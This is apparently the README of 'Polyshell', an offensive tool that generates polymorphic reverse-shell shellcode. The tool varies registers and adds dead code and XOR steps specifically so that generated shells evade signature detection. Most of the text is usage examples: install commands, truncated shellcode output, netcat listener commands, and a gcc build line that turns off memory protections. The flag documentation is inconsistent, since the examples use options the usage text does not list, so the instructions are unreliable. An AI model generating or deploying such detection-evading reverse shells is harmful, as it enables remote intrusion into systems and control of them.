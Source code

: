 
# Polyshell

Simple polymorphic reverse shell generator.\
\
This tool will randomly choose registry between `r8` to `r15` to handle the different file descriptors for the reverse shell.\
 It will also put some dead code within the shellcode so that none of the generated shell's signatures can't be identical.

```

     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell

    
usage: polyshell [-h] [-i IP] [-p PORT] [-e {big,little}] [-n NBXOR] [-b]

optional arguments:
  -h, --help            show this help message and exit
  -i IP, --ip IP        IPv4 Address
  -p PORT, --port PORT  Port to bind
  -e {big,little}, --endian {big,little}
                        Endianness of the target, default=little
  -n NBXOR, --nbxor NBXOR
                        Number of xor to put, default=10
  -b, --build           Compile the C file
```
## Requirements

`python3.X` and additionnaly `gcc` if you desire to compile the C file.


## Installation

```bash
git clone https://github.com/Vadimador/polyshell
cd polyshell
./main.py
```

You can add the polyshell main.py to path one of your PATH to execute it from anywhere.
```
cd polyshell
ln -s $(readlink -f main.py) ~/.local/bin/polyshell
```
    
## Run

### Create a reverse shell and build it, save the shellcode in a TXT file

```bash
┌[t4yki@d3v]
└[~]> polyshell -i 127.0.0.1 -p 6666 -b


     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell


 [!] Shellcode generated :

\x4d\x31\xc9\x4d...\x0f\x05


 [!] Shellcode saved at shellcode.txt

 [+] Number of xor put : 10
 [+] IPv4 address to connect to : 127.0.0.1
 [+] Port to bind : 6666
 [+] Compiled shellcode : reverse_shell
 [+] Start a listener : nc -lvnp 6666
 ```

 ### Create a reverse shell and modify the number of xor and hide shellcode printing
```bash
┌[Vadimador@d3v] 
└[~]> polyshell -i 127.0.0.1 -p 1024 -x 54 -b -n


     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell

 
 [!] Shellcode saved at shellcode.txt

 [+] Number of xor put : 54
 [+] IPv4 address to connect to : 127.0.0.1
 [+] Port to bind : 1024
 [+] Compiled shellcode : reverse_shell
 [+] Start a listener : nc -lvnp 1024
```

### Create a reverse shell but don't build it, just save it to C and TXT file.

```bash
┌[Ninuuu@d3v] 
└[~]> polyshell -i 127.0.0.1 -p 4444 -x 88


     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell


 [!] Shellcode generated :

\x4d\x31\xed\x4d\x31\xed\x4d...\x0f\x05


 [!] Shellcode saved at shellcode.txt

 [+] Number of xor put : 88
 [+] IPv4 address to connect to : 127.0.0.1
 [+] Port to bind : 4444
 [+] Shellcode at : reverse_shell.c
 [+] Build : gcc reverse_shell.c -o shell -fno-stack-protector -z execstack -no-pie
```